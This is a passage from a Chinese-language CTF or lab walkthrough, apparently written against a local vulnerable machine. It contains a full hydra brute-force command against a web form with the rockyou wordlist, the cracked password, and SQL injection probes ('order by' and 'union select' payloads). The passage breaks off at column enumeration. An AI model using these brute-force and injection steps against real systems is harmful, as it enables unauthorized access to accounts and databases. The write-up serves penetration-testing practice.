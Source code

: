 -   将`Comment`给出的提示信息放入url进行测试，发现存在一个新页面
-   ![image-20230609093326204](https://raw.githubusercontent.com/r0o983/images/main/image-20230609093326204.png)
-   查看源代码提示密码并不复杂，使用爆破工具进行爆破
-   ![image-20230609093659317](https://raw.githubusercontent.com/r0o983/images/main/image-20230609093659317.png)



### 使用hydra进行爆破

```shell
❯ hydra 192.168.2.147 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l test -P /usr/share/wordlists/rockyou.txt
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-09 09:44:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.2.147:80/kzMb5nVYJw/index.php:key=^PASS^:invalid key
[STATUS] 4452.00 tries/min, 4452 tries in 00:01h, 14339947 to do in 53:42h, 16 active
[STATUS] 4538.67 tries/min, 13616 tries in 00:03h, 14330783 to do in 52:38h, 16 active
[80][http-post-form] host: 192.168.2.147   login: test   password: elite
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-09 09:50:31

参数释义：
	^PASS^ 爆破的密码位置
	http-form-post	表单提交方式
	invalid key 是一个表示认证失败的响应字符串，用于判断密码是否正确
```

-   成功获得密码：`elite`，输入密码进入以下页面
-   ![image-20230609095747298](https://raw.githubusercontent.com/r0o983/images/main/image-20230609095747298.png)
-   经过测试，输入任意不存在的字符会提示`Fetched data successfully` ，输入当前字符的任意字符都会查出数据，应该是使用的模糊查询
-   ![image-20230609100049931](https://raw.githubusercontent.com/r0o983/images/main/image-20230609100049931.png)



### sql注入

-   输入双引号会触发sql语句报错

-   ![image-20230609100151364](https://raw.githubusercontent.com/r0o983/images/main/image-20230609100151364.png)

-   构建sql语句，查看当前有几列数据`" order by 4 -- `查询到第四列数据时进行报错

-   ![image-20230609100412683](https://raw.githubusercontent.com/r0o983/images/main/image-20230609100412683.png)

-   查看回显点`" union select 1,2,3 -- `

